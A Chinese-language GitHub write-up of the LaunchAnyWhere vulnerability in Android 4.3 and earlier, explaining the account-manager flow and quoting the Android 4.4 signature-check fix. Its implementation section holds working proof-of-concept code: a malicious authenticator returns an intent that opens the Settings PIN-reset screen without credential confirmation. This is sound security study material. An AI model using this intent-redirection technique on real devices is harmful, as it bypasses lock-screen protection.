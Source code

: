 # LaunchAnyWhere
4.3及以下的一个系统漏洞

>本文仅供安全技术交流,请勿用于不正当的用途,造成的一切后果与本文作者无关.

### 0x00 前言
最近看了一点儿系统安全相关的东西,想了解一下java序列化反序列化的东西,正好看到LaunchAnyWhere这个比较经典的漏洞,也尝试了一下,触发机制和原理都比较简单,但是危害也不小.所以这里也顺手记下来.

再顺带提一下,这个漏洞在Android4.3之后就失效了~

### 0x01 背景知识
#### 1.Android 账户系统
Android2.0中加入了一个新的包android.accounts，该包主要包括了集中式的账户管理API，用以安全地存储和访问认证的令牌和密码，比如，我们的手机存在多个账户，每个账户下面都有不同的信息，甚至每个账户都可以与不同的服务器之间进行数据同步（例如，手机账户中的联系人可以是一个Gmail账户中的通讯录，可联网进行同步更新）

#### 2.Android中添加账户的基本流程
比如现在有两个app,appA需要使用到appB中的账户信息,而appB本身也提供了这种功能,那么就可以进行添加账户的操作.<br>
普通应用（记为AppA）去请求添加某类账户时，会调用AccountManager.addAccount,然后AccountManager会去查找提供账号的应用（记为AppB）的Authenticator类，调用Authenticator. addAccount方法；AppA再根据AppB返回的Intent去调起AppB的账户登录界面。<br>
整个流程如下图所示:

![](http://retme.net/usr/uploads/image/20140820/20140820062918_12778.png)

我们带着图缕一下流程,首先appA请求添加账户,然后系统发现appb可以提供这个账户服务,就去请求b,b返回一个intent给系统,系统返回给a,a启动这个页面.

#### 3.安全隐患
将上面的东西总结成一句话就是:<br>
使用appA打开appB指定的一个界面<br>
那这里就有一个比较明显的安全问题,如果appA是具有较高权限的系统级应用,那这里是不是就可以通过指定appB返回的intent的内容来打开任意界面了,甚至是本身不导出的?<br>

### 0x02 实现
按照上面提到的信息,我们尝试一下,打开一个比较重要的界面,去实现无密码的情况下,对pin码进行重置.<br>
这里是需要一些Android开发的相关知识的,贴一篇别人的博客,这里就不赘述了.<br>
https://blog.csdn.net/kifile/article/details/40949975

首先我们需要新建一个属于自己的提供帐号服务的类
```
public class MyAccountService extends Service {

    private MyAuthenticator myAuthenticator;

    public MyAccountService() {
    }

    @Override
    public void onCreate() {
        super.onCreate();
        myAuthenticator = new MyAuthenticator(this);
    }

    @Override
    public IBinder onBind(Intent intent) {
        return myAuthenticator.getIBinder();
    }
}
```
实现的功能也比较简单,就是在onBind返回一个IBinder,然后再实现一个自己的AbstractAccountAuthenticator类
```
public class MyAuthenticator extends AbstractAccountAuthenticator {
    private final static String TAG = MyAuthenticator.class.getName();

    public MyAuthenticator(Context context) {
        super(context);
    }

    @Override
    public Bundle editProperties(AccountAuthenticatorResponse accountAuthenticatorResponse, String s) {
        return null;
    }

    @Override
    public Bundle addAccount(AccountAuthenticatorResponse accountAuthenticatorResponse, String s, String s1, String[] strings, Bundle bundle) throws NetworkErrorException {
        Log.i(TAG, "addAccount: ");
        Intent intent = new Intent();
        intent.setComponent(new ComponentName(
                "com.android.settings",
                "com.android.settings.ChooseLockPassword"));
        intent.setAction(Intent.ACTION_RUN);
        intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
        intent.putExtra("confirm_credentials",false);
        bundle.putParcelable(AccountManager.KEY_INTENT, intent);

        return bundle;
    }

}
```
当appA向b发起添加账户的请求后,appb就会调用addacount将包含对应信息的bundle返回,这个地发就是利用的关键,我们将这个组件指定为设置pin码的界面,也就是希望能使用appa调起重置pin码的界面.

最后不要忘了添加权限
```
<uses-permission android:name="android.permission.AUTHENTICATE_ACCOUNTS" />
```

然后就是安装app了,安装完成后打开设置->添加账户,可以看到里面已经有了我们刚刚写的应用的选项

![](https://github.com/EggUncle/Demo/blob/master/markdownimg/2018-06-11%2022-38-13%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png?raw=true)

点击这个列表项

![](https://github.com/EggUncle/Demo/blob/master/markdownimg/2018-06-11%2022-39-22%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png?raw=true)

### 0x03 修复方案
这个漏洞在Android4.4上就被修复了,修复的方式是在b给a返回bundle的时候,检查这个bundle启动的组件的信息签名是不是和b一致.
```
2186        @Override
2187        public void onResult(Bundle result) {
2188            mNumResults++;
2189            Intent intent = null;
2190            if (result != null
2191                    && (intent = result.getParcelable(AccountManager.KEY_INTENT)) != null) {
2192                /*
2193                 * The Authenticator API allows third party authenticators to
2194                 * supply arbitrary intents to other apps that they can run,
2195                 * this can be very bad when those apps are in the system like
2196                 * the System Settings.
2197                 */
2198                int authenticatorUid = Binder.getCallingUid();
2199                long bid = Binder.clearCallingIdentity();
2200                try {
2201                    PackageManager pm = mContext.getPackageManager();
2202                    ResolveInfo resolveInfo = pm.resolveActivityAsUser(intent, 0, mAccounts.userId);
2203                    int targetUid = resolveInfo.activityInfo.applicationInfo.uid;
2204                    if (PackageManager.SIGNATURE_MATCH !=
2205                            pm.checkSignatures(authenticatorUid, targetUid)) {
2206                        throw new SecurityException(
2207                                "Activity to be started with KEY_INTENT must " +
2208                               "share Authenticator's signatures");
2209                    }
2210                } finally {
2211                    Binder.restoreCallingIdentity(bid);
2212                }
2213            }
.............................
2264        }

```

### 0x04 参考
http://retme.net/index.php/2014/08/20/launchAnyWhere.html  <br>
http://www.droidsec.cn/bundle%E9%A3%8E%E6%B0%B4-android%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%8E%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%8D%E5%8C%B9%E9%85%8D%E6%BC%8F%E6%B4%9E%E8%AF%A6%E8%A7%A3/ 
